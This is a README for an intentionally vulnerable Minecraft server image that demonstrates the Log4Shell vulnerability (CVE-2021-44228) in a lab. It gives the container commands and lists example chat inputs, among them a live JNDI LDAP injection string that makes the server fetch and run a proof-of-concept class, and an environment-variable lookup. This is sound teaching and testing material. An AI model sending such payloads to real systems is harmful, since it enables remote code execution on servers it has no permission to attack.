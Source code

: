 # Minecraft Log4shell CVE-2021-44228

For more information about the vulnerability and this Docker image, see [my blog post about Log4shell in Minecraft](https://malwarelab.eu/posts/log4shell-minecraft/).

```
podman pull docker.io/lacike3/attacks-demo:minecraft-log4shell
```

The Docker image contains the old version of Minecraft 1.8.8 with vulnerable version of Log4j library. It also contains old version of Java 8u181. This is one of the versions allowing the remote code execution through JNDI lookups with LDAP names. You can find more details about the Log4j exploitation vectors and affected Java runtime versions in [this post by Moritz Bechler](https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/).

There is also the [marshalsec](https://github.com/mbechler/marshalsec) tool for redirecting the LDAP references to a Java class served by simple Python webserver.

The POC Java class just executes the `whoami` command and prints a simple message.

![Minecraft Log4shell Demonstration](./minecraft-log4shell.gif)

## Build

```
podman build --rm -t minecraft-log4shell -f Dockerfile .
```

## Usage

For simple demo and playing with the vulnerable Minecraft server in the tmux session, just run

```
podman run --rm -it attacks-demo:minecraft-log4shell
```

and then navigate to the Minecraft window with CTRL+B and Up. You can send the chat messages in behalf of the server with the command `say`, e.g.:
* `say hello`
* `say ${env:PATH}` (example of environment variable lookup)
* `say ${jndi:ldap://127.0.0.1:1389/Log4Shell}` (example of JNDI LDAP lookup, which downloads and executes POC.class by the vulnerable Minecraft server)

For stopping the server, just type `stop`. For another commands and help, type `help`.

If you wish to connect your Minecraft client to the vulnerable Minecraft server and send the above messages by the player to the chat, you can expose the Minecraft server to the host:

```
podman run --rm -it -p 25565:25565 attacks-demo:minecraft-log4shell
```
